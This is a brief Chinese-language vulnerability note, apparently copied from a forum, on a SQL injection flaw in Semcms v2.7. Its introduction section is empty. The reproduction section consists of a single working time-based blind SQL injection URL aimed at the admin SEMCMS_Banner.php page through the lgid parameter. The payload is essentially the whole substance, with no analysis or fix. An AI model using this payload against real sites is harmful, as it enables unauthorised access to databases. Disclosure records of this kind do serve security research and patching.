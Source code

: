 # Semcms v2.7 sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3120](https://www.zhihuifly.com/t/topic/3120)

# Semcms v2.7 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

Semcms v2.7

## 三、复现过程

```
http://0-sec.org/semcms/sbifr_Admin/SEMCMS_Banner.php?err=001&lgid=1 and if(length(database()>0),sleep(10),1) --+ 
```